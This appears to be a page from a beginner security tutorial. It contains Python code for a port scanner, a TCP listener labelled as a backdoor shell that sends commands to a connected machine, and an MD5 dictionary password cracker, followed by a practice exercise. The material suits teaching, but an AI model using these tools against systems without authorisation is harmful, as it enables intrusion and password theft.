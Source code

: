 TCP Client (Port Scanner):

```python

import socket  

target = "192.168.1.1"  

for port in range(1, 100):  
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
    sock.settimeout(1)  
    result = sock.connect_ex((target, port))  
    if result == 0:  
        print(f"Port {port} is open")  
    sock.close()  
```
TCP Listener (Backdoor Shell):

```python

import socket  

s = socket.socket()  
s.bind(("0.0.0.0", 4444))  
s.listen(1)  
print("Listening...")  

conn, addr = s.accept()  
print(f"Connected to {addr}")  

while True:  
    cmd = input("$ ")  
    conn.send(cmd.encode())  
    print(conn.recv(1024).decode())  

3. Password Cracker (Dictionary Attack)
```
```python

import hashlib  

def crack_hash(hash, wordlist):  
    with open(wordlist, "r") as f:  
        for word in f:  
            word = word.strip()  
            guess = hashlib.md5(word.encode()).hexdigest()  
            if guess == hash:  
                return f"Password found: {word}"  
    return "Password not found"  

print(crack_hash("5f4dcc3b5aa765d61d8327deb882cf99", "rockyou.txt"))  
```
**Activities**
1. Write a Port Scanner with Banner Grabbing
